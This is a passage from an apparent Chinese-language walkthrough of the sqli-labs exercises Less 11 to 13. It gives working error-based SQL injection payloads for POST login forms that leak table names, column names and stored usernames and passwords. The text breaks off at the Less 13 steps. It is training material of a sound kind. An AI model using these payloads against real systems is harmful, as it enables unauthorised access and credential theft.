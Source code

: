 查询到部分用户的用户名和密码，如果想查看更多可以继续添加where 与 not in属性

`uname=admin' and extractvalue(1,concat('~',(select group_concat('|',username,'~',password,'|') from users where username not in('Dumb','Angelina') ))) --+ &passwd=admin&submit=Submit`

以此类推


***
# less 12(基于错误的双引号POST型字符变形的注入)
***
## 原理

与上一题相似，但是改成了双引号变形字符注入，值得注意的是，并不是把单引号换成双引号这么简单，查看源码找到注入点

发现uname和passwd都被用双引号括了起来，所以要想办法对其进行闭合并且接入新的语句



## 步骤

1.构造语句

`admin"  and extractvalue(1,concat('~',(select database())))  and " `

也是用报错的漏洞，将数据库信息输出

2.爆表名

`uname=admin"  and extractvalue(1,concat('~',(select group_concat(table_name) from information_schema.tables where table_schema=database())))  and "  &passwd=admin&submit=Submit `

3.爆列名

`uname=admin"  and extractvalue(1,concat('~',(select group_concat(column_name) from information_schema.columns where table_name='users')))  and "  &passwd=admin&submit=Submit`

还是由于显示的问题，所以采用where和not in的属性对其进行限制与显示新的数据

4.其余爆用户名和密码的方式与之前一样

`uname=admin" and extractvalue(1,concat('~',(select group_concat(username,'~',password) from users))) and " &passwd=admin&submit=Submit`




***
# less 13(POST单引号变形双注入)
***
## 原理

基于报错的注入

## 步骤
